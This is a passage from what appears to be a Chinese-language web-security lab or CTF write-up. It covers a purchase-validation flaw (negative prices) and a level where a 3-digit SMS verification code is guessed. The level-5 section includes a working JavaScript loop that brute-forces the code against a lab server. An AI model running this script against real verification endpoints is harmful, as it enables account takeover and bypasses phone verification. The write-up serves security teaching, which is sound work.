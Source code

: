 ``` javascript
        if (data.status == 200) {
            console.log('SUCCESS');
        }
    }
});
```

### 4. 小结
虽然做了不能够买比自己持有总金额高的物品的检验，但是未校验物品金额不允许为负数，也未校验id对应的物品金额与实际金额是否相符。
对于关键逻辑，对参数做更加严格的校验。


## 0x05 关卡5
暴力破解

### 1. 提示
提示如下：
> 任务目标：通过收到的短信验证码完成手机验证。
Tips：有时候采用最原始的方法收到的效果反而更显著。

### 2. 界面
界面如下图所示：
![关卡5](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_24.png)
![关卡5](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_24.png)
![关卡5](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_24.png)
![关卡5](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160309_24.png)

### 3. 揭密
从Tips里提到的最原始的方法，大概能猜测到最直接的破解方式：**字典破解** 或 **暴力破解**。
要么验证码是个弱密码，要么验证码很方便枚举出来。

接下来，点击“获取短信验证码”，提示：新的3位数字验证码已经通过短信，发送到13800138000的手机上，请注意查收！
因此，可见验证码可以枚举出来，只需要发起不超过1000次请求即可找到验证码。

看过js请求代码，了解请求构造后，可以使用如下操作暴破：
``` javascript
var url = 'http://10.4.236.115:8080/sohu/sms/code/verfiy';
var len = 1000;
for (var i = 0; i < len; i++) {
	$.ajax({
		method: 'post',
        async: false,
		url: url + '?phone=13800138000&code=' + i,
		success: function(data) {
			if (data.status == 200) {
				console.log('code:' + i);
				i = len;
			}
		}
	});
}
```

